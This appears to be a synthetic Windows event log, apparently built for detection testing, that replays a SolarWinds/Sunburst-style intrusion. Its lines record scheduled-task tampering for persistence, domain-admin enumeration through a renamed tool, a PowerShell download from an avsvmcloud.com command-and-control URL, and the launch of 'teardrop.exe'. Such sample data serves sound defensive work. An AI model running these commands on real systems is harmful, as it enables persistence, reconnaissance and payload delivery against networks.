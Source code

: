 {"EventID":4688,"Channel":"Security","@timestamp":"2020-12-13T12:01:00.000Z","NewProcessName":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe","CommandLine":"$scheduler = New-Object -ComObject (\"Schedule.Service\");$scheduler.Connect($env:COMPUTERNAME);$folder = $scheduler.GetFolder(\"\\Microsoft\\Windows\\SoftwareProtectionPlatform\");$task = $folder.GetTask(\"EventCacheManager\");$definition = $task.Definition;$definition.Settings.ExecutionTimeLimit = \"PT0S\";$folder.RegisterTaskDefinition($task.Name,$definition,6,\"System\",$null,5);echo \"Done\"","SubjectUserName":"pgustavo","Hostname":"WORKSTATION1.theshire.local","tags":["solarwinds","sunburst"]}
{"EventID":4688,"Channel":"Security","@timestamp":"2020-12-13T12:01:05.000Z","NewProcessName":"C:\\Windows\\System32\\cmd.exe","CommandLine":"C:\\Windows\\system32\\cmd.exe /C csrss.exe -h breached.contoso.com -f (name=\"Domain Admins\") member -list | csrss.exe -h breached.contoso.com -f objectcategory=* > .\\Mod\\mod1.log","SubjectUserName":"pgustavo","Hostname":"WORKSTATION1.theshire.local","tags":["solarwinds","sunburst"]}
{"EventID":3,"Channel":"Sysmon","@timestamp":"2020-12-13T12:02:00.000Z","Image":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe","DestinationIp":"18.130.0.0","DestinationPort":443,"Protocol":"tcp","User":"pgustavo","ProcessGuid":"{87654321-4321-4321-4321-210987654321}","Hostname":"WORKSTATION1.theshire.local","tags":["solarwinds","sunburst"]}
{"EventID":4104,"Channel":"PowerShell","@timestamp":"2020-12-13T12:02:05.000Z","Message":"CommandInvocation(Invoke-WebRequest): \"Invoke-WebRequest -Uri 'https://3mu76044hgf7shjf.appsync-api.eu-west-1.avsvmcloud.com/swip/upd/Orion.Wireless.xml' -OutFile 'C:\\Temp\\update.xml'\"","RunspaceId":"2df6de6d-4ed6-4209-b598-917823190d34","Hostname":"WORKSTATION1.theshire.local","tags":["solarwinds","sunburst"]}
{"EventID":11,"Channel":"Sysmon","@timestamp":"2020-12-13T12:02:10.000Z","Image":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe","TargetFilename":"C:\\Temp\\update.xml","CreationUtcTime":"2020-12-13T12:02:10Z","ProcessGuid":"{87654321-4321-4321-4321-210987654321}","Hostname":"WORKSTATION1.theshire.local","tags":["solarwinds","sunburst"]}
{"EventID":1,"Channel":"Sysmon","@timestamp":"2020-12-13T12:03:00.000Z","Image":"C:\\Temp\\teardrop.exe","ParentImage":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe","CommandLine":"","ProcessGuid":"{fedcba98-7654-3210-fedc-ba9876543210}","Hostname":"WORKSTATION1.theshire.local","tags":["solarwinds","sunburst"]}
